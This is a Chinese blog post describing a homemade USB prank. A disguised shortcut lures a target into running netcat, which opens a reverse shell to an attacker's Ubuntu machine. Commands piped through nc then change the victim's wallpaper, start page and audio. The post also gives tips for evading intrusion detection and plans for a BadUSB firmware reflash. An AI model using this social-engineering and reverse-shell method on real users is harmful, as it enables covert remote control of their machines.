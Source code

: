 ```yaml
---
layout:     post   				    
title:      一个简单无害的netcatUSB				
subtitle:    
date:       2024-08-27 				
author:     Closure 						
header-img: img/ 
catalog: true 						
tags:								
    - 安全
    - 移动设备
---
```

> 半小时速通的东西，成本0，沿用之前装机的U盘。

> 在成功监听目标设备后将进行以下操作：更换桌面壁纸、更换桌面文件图标、设置chiikawa毛毛力购买链接为默认网址、播放毛毛力音频。

> https://hackernoon.com/how-to-make-a-malicious-usb-device-and-have-some-harmless-fun

手上没有带有Phison 2303 (2251-03)微控制器的USB 3.0闪存盘，所以没法做真正意义上的BadUSB，下文提到的大概只能算是用简单的社会工程和脚本执行反向Shell，主要是诱导用户点击快捷方式(

等盘到了才正式做BadUSB，思路是把闪存盘重新编程为一个键盘恶意的HID来执行自定义的恶意操作，用Duck Encoder创建HID有效载荷嵌入固件；然后通过DriveCom工具烧录，最终想要的效果是可以模拟键盘输入执行行预设的操作。

最近在关注近源渗透方面的东西，总算明白为什么老看到曝出来hvv直接跑线下办公区接网线被逮的，毕竟就算网络层的安全性再高，物理设备的插入也可以直接干烂系统x

##   
示例拿的[netcat](https://netcat.sourceforge.net "netcat")，理论上来说并不是恶意软件，只是一个后端工具，但是windows defender会标记成恶意软件。netcat能在目标系统上执行一个反向shell后通过攻击机的客户端连接，因为它是直接使用的物理介质所以能够绕过大部分防护措施。

USB驱动器插入后创建一个新文件夹 *毛毛力掉落的尾巴毛* ，把netcat可执行文件拖进去后创建批处理文件开始对U盘进行文件系统更改。创建文本文件，然后扩展名保存.cmd。打码部分是Ubuntu的ip地址：
![](https://github.com/DemondeLap1ace/DemondeLap1ace.github.io/raw/master/img/202408274.png)

（这个还是太简单了，想了两个基础的改进方案，一是因为标准的netcat不支持加密，但是可以用ncat加上TLS加密来通信，二是Netcat通过Base64编码命令传输；对面入侵检测系统能够识别netcat的情况下就尝试不同的工具来模拟netcat功能，下次试试Socat的内置功能。)

社工步骤是创建一个快捷方式图标并链接到隐藏目录中的恶意软件来诱导目标点击，简单的伪装极致的效果x把毛毛力的jpg转成了ico，效果如下：

![](https://github.com/DemondeLap1ace/DemondeLap1ace.github.io/raw/master/img/202408273.png)
隐藏文件夹后目标打开的视角：


运行漏洞的服务器是安装了netcat的Ubuntu，创建一个反向shell让能在Windows上执行命令。

netcat基本语法 nc [options] [hostname] [port]
- -l: 监听模式。nc 会在指定的端口上监听传入的连接。
- -p: 指定端口号（通常与 -l 选项一起使用）。
- -e: 执行指定的程序，将其输入/输出连接到 netcat 的网络连接（注意安全问题，有些实现中此选项被禁用）。
- -v: 启用详细模式，提供更多的连接信息。
- -u: 使用 UDP 协议而不是默认的 TCP。
- -z: 扫描端口而不发送任何数据（用于端口扫描）。
- -n: 禁用 DNS 查询，直接使用 IP 地址。


##    

**更换壁纸**

*echo 'powershell.exe -Command "Set-ItemProperty -Path ''HKCU:Control Panel\Desktop'' -Name WallPaper -Value ''C:\path\to\mml.jpg''; RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters"' | nc <windows_ip> 4444*


**播放音频**

*echo 'start "" "C:\path\to\mml.mp3"' | nc <windows_ip> 4444*


**设置网站**
![](https://github.com/DemondeLap1ace/DemondeLap1ace.github.io/raw/master/img/202408271.png)

*echo 'powershell -command "New-ItemProperty -Path ''HKCU:\Software\Microsoft\Internet Explorer\Main'' -Name ''Start Page'' -Value ''https://chiikawamarket.jp/collections/momonga/products/4582662944312'' -Force"' | nc <windows_ip> 4444*

